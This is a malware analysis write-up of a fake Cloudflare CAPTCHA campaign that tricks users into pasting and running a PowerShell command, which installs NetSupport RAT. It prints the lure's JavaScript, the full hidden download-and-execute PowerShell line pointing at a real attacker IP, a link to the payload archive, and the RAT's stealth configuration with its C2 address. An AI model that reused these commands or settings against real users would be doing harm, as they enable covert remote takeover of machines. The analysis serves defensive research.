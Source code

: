 # Copy & Paste Malware Dropper — Technical Analysis

## Overview

This article documents a malware campaign that abuses a fake **Cloudflare CAPTCHA** page to trick victims into copying and executing a **PowerShell command**.  
The attack ultimately delivers **NetSupport Manager** (a legitimate remote administration tool often abused as a RAT).

The sample was first recorded on **URLAbuse**:

```json
{
  "id": 493186, 
  "url": "https://mondossierrenov.com/challenge.html", 
  "discovery": "2025-08-22 14:40:15", 
  "added": "2025-08-23 09:03:51", 
  "target": "#Malware_downloader", 
  "reporter": "VERIFROM", 
  "AbuseType": "phishing", 
  "UUID": "248a4d33325e29fb8602d83298c85153"
}

```

### Behaviour

#### Stage 1: Fake CAPTCHA

When the user visits the URL, a page imitating a Cloudflare CAPTCHA is shown:

![first stage CF fake captcha](https://raw.githubusercontent.com/urlabuse/public_access/refs/heads/main/copy_paste_payloads/first_stage_fake_cf_captcha.png)

However, this is actually not a cloudflare captcha but just an HTML page simulating the CF CAPTCHA.

When the checkbox is clicked, the following JavaScript runs:

```javascript
checkbox.addEventListener("click", function() {
    smartCopy(command);
    ...
});
```
The function smartCopy(command) copies a hidden PowerShell command into the clipboard:

```javascript
const command = `powershell  -w h -NoP -c "$u='http://216.245.184.93/bdA.lim';$p=\\"$env:USERPROFILE\\Documents\\m.ps1\\";(New-Object Net.WebClient).DownloadFile($u,$p);powershell -w h -ep bypass -f $p"`;
```

#### Stage 2: User Execution Trick

The victim is then shown another fake verification step:

![Second stage fake CF CAPTCHA](https://raw.githubusercontent.com/urlabuse/public_access/refs/heads/main/copy_paste_payloads/second_stage_fake_captcha.png)

The page instructs the user to:

1. Press Windows Key + R (open Run dialog)
2. Press CTRL+V (paste the malicious command from clipboard)
3. Press Enter

This executes the PowerShell command, which downloads the malware from: `http://216[.]245[.]184[.]93/bdA.lim`

The payload (9.3 MB) is stored as: `C:\Users\<username>\Documents\m.ps1`

and executed in hidden mode (-w h) with PowerShell execution policy bypassed (-ep bypass).

#### Payload Analysis

You can download the .zip version of the payload from ![Here](https://github.com/urlabuse/public_access/raw/refs/heads/main/copy_paste_payloads/bdA.zip) (password: infected)

Inside is a long PowerShell script. Key functions include:
1. **Decoding** a Base64-encoded blob into JSON
2. **Extracting** files into a hidden directory: `C:\Users\Public\YoaIXhwsHe`
3. **Installing persistence** by creating a shortcut in the Windows Startup folder pointing to client32.exe
4. **Masquerading** with a Windows system icon (imageres.dll,102)
5. **Delayed execution** to evade detection

#### Extracting the Encoded Files

Using bash:
```bash
cat bdA.lim | grep -E 'eyJmaWxlcyI6W3sibm.*QUFBQUFBPT0ifV19' -o > extraction.txt
cat extraction.txt | base64 -d -i > decoded_base64.txt
```

Using jq, we confirm the JSON contains an array of files:

```bash
cat decoded_base64.txt | jq '.files[0] | keys'
```
And here is the small python code to extract the files inside the JSON structure:

```python
import os, base64, json

if __name__ == "__main__":
    os.mkdir("payloads")
    with open("decoded_base64.txt") as f:
        data = json.load(f)
    for fobj in data["files"]:
        print("decoding.....{}...".format(fobj["name"]))
        with open("payloads/{}".format(fobj["name"]), "wb") as fw:
            fw.write(base64.b64decode(fobj["b64"]))
    print("DONE!")
```

We are able to extract 12 files:

```bash
AudioCapture.dll
client32.exe
client32.ini
HTCTL32.DLL
msvcr100.dll
nskbfltr.inf
NSM.LIC
nsm_vpro.ini
pcicapi.dll
PCICHEK.DLL
PCICL32.DLL
remcmdstub.exe
TCCTL32.DLL
```

The list of extracted files shows that the malware is a simple **NetSupport** tool dropper (mostly) known as NetSupport RAT.
At this stage, there is no need to analyze the binary files since it's a known and legit tool for remote monitoring.

Let's just take a look at the `client.ini` file which is the configuration file for NetSupport client.

#### NetSupport RAT Configuration

The extracted client32.ini reveals how attackers configure NetSupport:

```bash
quiet=1
AlwaysOnTop=0
AutoICFConfig=1
DisableChat=1
DisableChatMenu=1
DisableCloseApps=1
HideWhenIdle=1
silent=1
SKMode=1
SysTray=0
GatewayAddress=141.98.11.106:443
Port=443
```

Here is what this configuration means:
1. quiet=1 → Suppresses license warnings
2. silent=1 & SKMode=1 → Runs in stealth mode (hidden)
3. SysTray=0 → No tray icon visible
4. DisableChat* options → Prevent user interaction with attacker
5. GatewayAddress=141.98.11.106:443 → Connects to **attacker-controlled C2**
   

#### infrastructure

Malicious Domain
  - Domain: mondossierrenov.com
  - Registrar: IONOS SE
  - Created: 2025-08-18
  - Expires: 2026-08-18
  - Nameservers:
      - ns1107.ui-dns.org
      - ns1061.ui-dns.de
      - ns1121.ui-dns.biz
      - ns1061.ui-dns.com
  - A record: 23.227.194.170
  - Geo: Chicago, Illinois, US

Command & Control Server
  - IP Address: 141.98.11.106
  - Hostname: srv-141-98-11-106.serveroffer.net
  - Geo: Vilnius, Lithuania
  - Reputation: Reported 498 times (as of 24 Aug, 2025) on <a href="https://www.abuseipdb.com/check/141.98.11.106">AbuseIPDB</a> for malicious activities including SSH brute-force and WordPress scanning

#### Conclusion

This malware campaign uses social engineering (fake CAPTCHA) to trick users into self-executing a clipboard-injected PowerShell payload.

The payload installs NetSupport Manager RAT in stealth mode, connecting back to a known malicious C2 server (141.98.11.106:443).

Below, You can also see the attack flow: ./mermaind_flow.svg




